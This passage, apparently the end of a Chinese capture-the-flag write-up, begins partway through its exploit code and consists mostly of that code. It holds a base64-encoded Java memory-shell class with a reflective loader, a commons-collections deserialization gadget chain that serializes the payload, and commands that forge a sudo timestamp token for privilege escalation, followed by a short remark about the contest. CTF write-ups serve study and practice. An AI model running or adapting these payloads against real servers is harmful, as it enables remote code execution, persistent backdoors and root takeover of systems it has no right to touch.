ZkRPb2tjWkp4RnZzU2d5Z1dtL0YvL3dKKzNCZjB2K0Mrak5PRExuOTNPSXRmQkpsbGZEODE2S3JpNisrdTR2ZTUzOWsrL3grcFFYYis3S0lHaFNYZVQxR3F4VjFPTGg3eS8zVW1Vcmw3SVJ5clhtdnAvVlMycnFaTDRQRy9DQWM1T2tRMjd1TjZENUdqK3kxVzd1Uk1FWFBvZWE2MmdETnQxcE9MODlYNE52bHhVK051Y3ZZZHEvb3p1UXpNNExzV1owMTJsemdtRW11YUZQd1BzbEJHQWJBU0FBQT0IAA4BAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABAAEQoADQASAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAFQwAEAAUCgAEABcBAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7DAAZABoKAAIAGwEADmphdmEvdXRpbC9MaXN0BwAdAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DAAfACALAB4AIQEAEmphdmEvdXRpbC9JdGVyYXRvcgcAIwEAB2hhc05leHQBAAMoKVoMACUAJgsAJAAnAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAApACoLACQAKwEAC2dldExpc3RlbmVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAC0ALgoAAgAvAQALYWRkTGlzdGVuZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMADEAMgoAAgAzAQAmKClMamF2YS91dGlsL0xpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBACBqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbgcANgEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24HADgBACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwA6AQATamF2YS91dGlsL0FycmF5TGlzdAcAPAoAPQAXAQAQamF2YS9sYW5nL1RocmVhZAcAPwEACmdldFRocmVhZHMIAEEBAAxpbnZva2VNZXRob2QBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwwAQwBECgACAEUBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwBHAQAHZ2V0TmFtZQwASQAGCgBAAEoBABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCABMAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAE4ATwoADQBQAQAGdGFyZ2V0CABSAQAFZ2V0RlYMAFQARAoAAgBVAQAGdGhpcyQwCABXAQAIY2hpbGRyZW4IAFkBABFqYXZhL3V0aWwvSGFzaE1hcAcAWwEABmtleVNldAEAESgpTGphdmEvbGFuZy91dGlsL1NldDsMAG0AXgoAXABfAQANamF2YS91dGlsL1NldAcAYQsAYgAhAQADZ2V0DABkAC4KAFwAZQEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwwAZwBoCgAEAGkBAA9qYXZhL2xhbmcvQ2xhc3MHAGsKAGwASgEAD1N0YW5kYXJkQ29udGV4dAgAbgEAA2FkZAEAFShMamF2YS9sYW5nL09iamVjdDspWgwAcABxCwAeAHIBABVUb21jYXRFbWJlZGRlZENvbnRleHQIAHQBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7DAB2AHcKAEAAeAEACHRvU3RyaW5nDAB6AAYKAGwAewEAGVBhcmFsbGVsV2ViYXBwQ2xhc3NMb2FkZXIIAH0BAB9Ub21jYXRFbWJlZGRlZFdlYmFwcENsYXNzTG9hZGVyCAB/AQAJcmVzb3VyY2VzCACBAQAHY29udGV4dAgAgwEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uBwCFAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWDAAQAIcKAJYAiAEAE2phdmEvbGFuZy9UaHJlYWQ7BwCKAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DACMAI0KAEAAjgEADmdldENsYXNzTG9hZGVyDACQAHcKAGwAkQwABQAGCgACAJMBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIHAJUBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DACXAJgKAJYAmQEAC25ld0luc3RhbmNlDACbACoKAGwAnAwACQAGCgACAJ4BAAxkZWNvZGVCYXNlNjQBABYoTGphdmEvbGFuZy9TdHJpbmc7KVtCDACgAKEKAAIAogEADmd6aXBEZWNvbXByZXNzAQAGKFtCKVtCDACkAKUKAAIApgEAC2RlZmluZUNsYXNzCACoAQACW0IHAKoBABFqYXZhL2xhbmcvSW50ZWdlcgcArAEABFRZUEUBABFMamF2YS9sYW5nL0NsYXNzOwwArgCvCQCtALABABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMALIAswoAbAC0AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwC2AQANc2V0QWNjZXNzaWJsZQEABChaKVYMALgAuQoAtwC6AQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMALwAvQoArQC+AQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADAAMEKALcAwgEACmlzSW5qZWN0ZWQBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KVoMAMQAxQoAAgDGAQAbYWRkQXBwbGljYXRpb25FdmVudExpc3RlbmVyCADIAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABDAMoKAAIAywEAHGdldEFwcGxpY2F0aW9uRXZlbnRMaXN0ZW5lcnMIAM0BABNbTGphdmEvbGFuZy9PYmplY3Q7BwDPAQAQamF2YS91dGlsL0FycmF5cwcA0QEABmFzTGlzdAEAJShbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL3V0aWwvTGlzdDsMANMA1AoA0gDVAQAZKExqYXZhL3V0aWwvQ29sbGVjdGlvbjspVgwAEADXCgA9ANgKAD0AcgEAHHNldEFwcGxpY2F0aW9uRXZlbnRMaXN0ZW5lcnMIANsBAAd0b0FycmF5AQAVKClbTGphdmEvbGFuZy9PYmplY3Q7DADdAN4KAD0A3wEABHNpemUBAAMoKUkMAOEA4goAPQDjAQAVKEkpTGphdmEvbGFuZy9PYmplY3Q7DABkAOUKAD0A5gEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwDoAQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcggA6gEAB2Zvck5hbWUMAOwAmAoAbADtAQAMZGVjb2RlQnVmZmVyCADvAQAJZ2V0TWV0aG9kDADxALMKAGwA8gEAEGphdmEudXRpbC5CYXNlNjQIAPQBAApnZXREZWNvZGVyCAD2AQAGZGVjb2RlCAD4AQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAPoKAPsAFwEAHGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW0HAP0BAAUoW0IpVgwAEAD/CgD+AQABAB1qYXZhL3V0aWwvemlwL0daSVBJbnB1dFN0cmVhbQcBAgEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAEAEECgEDAQUBAARyZWFkAQAFKFtCKUkMAQcBCAoBAwEJAQAFd3JpdGUBAAcoW0JJSSlWDAELAQwKAPsBDQEAC3RvQnl0ZUFycmF5AQAEKClbQgwBDwEQCgD7AREBAARnZXRGAQA/KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAETARQKAAIBFQEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwEXCgEYALoKARgAZQEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBGwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAR0BHgoAbAEfAQANZ2V0U3VwZXJjbGFzcwwBIQBoCgBsASIKARwAEgEAEmdldERlY2xhcmVkTWV0aG9kcwEAHSgpW0xqYXZhL2xhbmcvcmVmbGVjdC9N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');classLoader = java.lang.ClassLoader.getSystemClassLoader();methodd = Class.forName(\"java.lang.ClassLoader\").getDeclaredMethod('defineClass', Class.forName(\"java.lang.String\"), java.lang.Class.forName('[B'), java.lang.Integer.TYPE, java.lang.Integer.TYPE);methodd.setAccessible(true);methodd.invoke(classLoader, 'org.apache.commoms.beanutils.coyote.util.TokenBuffere93dd9f5005b4c80ac022cef7e996d17', bytes, 0, bytes.length);classLoader.loadClass('org.apache.commoms.beanutils.coyote.util.TokenBuffere93dd9f5005b4c80ac022cef7e996d17').newInstance();";
        System.out.println(code);
        InstantiateFactory factory = new InstantiateFactory(ShellSession.class, new Class[]{String.class}, new Object[]{code});
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();
        tmp.put("zZ", "d");
        DefaultedMap map = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);

        FastHashMap fastHashMap1 = new FastHashMap();
        fastHashMap1.put("yy", "d");

        Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");


        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);

        Object node = table[2];
        Field keyField;
        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception e) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String) {
            keyField.set(node, map);
        }

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(obj);
        oos.close();
        SecurityObjectInputStream ois = new SecurityObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));

    }

    public static void setFieldValue(Object obj, String filename, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

上线之后发现 /var/run/sudo/ts/java 是可写的，上传 write_sudo_token

```Bash
chmod 777 write_sudo_token
./write_sudo_token $$ > /var/run/sudo/ts/java
```



## 小结

总的来说题目质量还是可以的，就是比赛中途有点不愉快，而且时间在周中，上班时间也被叫来看题🥵
